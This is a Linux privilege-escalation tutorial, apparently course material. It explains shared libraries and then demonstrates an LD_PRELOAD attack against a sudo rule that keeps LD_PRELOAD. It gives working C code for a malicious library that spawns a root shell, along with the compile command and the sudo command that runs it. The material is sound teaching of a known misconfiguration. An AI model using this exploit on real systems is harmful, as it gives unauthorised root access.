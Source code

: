 It is common for Linux programs to use dynamically linked shared object libraries. Libraries contain compiled code or other data that developers use to avoid having to re-write the same pieces of code across multiple programs. Two types of libraries exist in Linux: static libraries (denoted by the .a file extension) and `dynamically linked shared object libraries` (denoted by the .so file extension). When a program is compiled, static libraries become part of the program and can not be altered. However, dynamic libraries can be modified to control the execution of the program that calls them.

There are multiple methods for specifying the location of dynamic libraries, so the system will know where to look for them on program execution. This includes the `-rpath` or `-rpath-link` flags when compiling a program, using the environmental variables `LD_RUN_PATH` or `LD_LIBRARY_PATH`, placing libraries in the `/lib` or `/usr/lib` default directories, or specifying another directory containing the libraries within the `/etc/ld.so.conf` configuration file.

Additionally, the `LD_PRELOAD` environment variable can load a library before executing a binary. The functions from this library are given preference over the default ones. The shared objects required by a binary can be viewed using the ldd utility.

> ldd /bin/ls

	linux-vdso.so.1 =>  (0x00007fff03bc7000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f4186288000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4185ebe000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f4185c4e000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f4185a4a000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f41864aa000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f418582d000)

The image above lists all the libraries required by` /bin/ls`, along with their absolute paths.

# LD_PRELOAD Privilege Escalation

Let's see an example of how we can utilize the <LD_PRELOAD> (*https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html*) environment variable to escalate privileges. For this, we need a user with `sudo` privileges.

> sudo -l

    Matching Defaults entries for daniel.carter on NIX02:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

    User daniel.carter may run the following commands on NIX02:
        (root) NOPASSWD: /usr/sbin/apache2 restart

This user has rights to restart the Apache service as root, but since this is `NOT` a <GTFOBin> and the `/etc/sudoers entry` is written specifying the absolute path, this could not be used to escalate privileges under normal circumstances. However, we can exploit the `LD_PRELOAD` issue to run a custom shared library file. Let's compile the following library:

# Code: c

    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
    }


We can compile this as follows: 

> gcc -fPIC -shared -o root.so root.c -nostartfiles

Finally, we can escalate privileges using the below command. Make sure to specify the full path to your malicious library file.

> sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

    id
    uid=0(root) gid=0(root) groups=0(root)